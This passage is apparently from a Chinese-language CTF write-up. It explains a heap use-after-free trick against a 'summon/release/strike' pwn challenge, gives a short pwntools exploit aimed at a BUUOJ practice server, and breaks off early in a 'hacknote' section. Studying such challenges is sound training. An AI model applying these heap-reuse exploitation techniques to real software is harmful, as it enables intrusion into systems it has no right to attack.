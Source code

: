 我们先summon一个，会先后得到16字节的1号堆空间和16字节的保存名字的2号堆空间

![image-20211102014029647](https://abc.p0lar1s.com/202111020140738.png)

于是输入名字时用八个字节填充前八个字节，再填入5，这样后八个字节就是5

![image-20211102014841266](https://abc.p0lar1s.com/202111020148302.png)

再release，这样2号堆空间就变成了fastbin chunk

![image-20211102015101692](https://abc.p0lar1s.com/202111020151728.png)

![image-20211102015147426](https://abc.p0lar1s.com/202111020151458.png)

再召唤一个，即重新得到这个chunk，0x55ae381da030成为当前的一号堆空间，0x55ae381da050成为当前的二号堆空间，一号堆空间的最后八字节为5，表示我们召唤的东西等级已经达到5

![image-20211102015511764](https://abc.p0lar1s.com/202111020155806.png)

再strike即可

exp如下：

```
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
#p = process("./1")
p = remote('node4.buuoj.cn', 29157)
#e = ELF("./1")
#libc = ELF('./libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p.sendlineafter('> ', b'summon aaaaaaaa\x05')
p.sendlineafter('> ', b'release')
p.sendlineafter('> ', b'summon aaa')
p.sendlineafter('> ', b'strike')
p.interactive()
```

### hacknote

checksec:

![image-20211107172052779](https://abc.p0lar1s.com/202111071720812.png)

add():

![在这里插入图片描述](https://abc.p0lar1s.com/202111071720705.png)

sub_804862B：打印出实参地址+4处的地址指向的内容

![在这里插入图片描述](https://abc.p0lar1s.com/202111071721682.png)

![img](https://abc.p0lar1s.com/202111071721146.png)
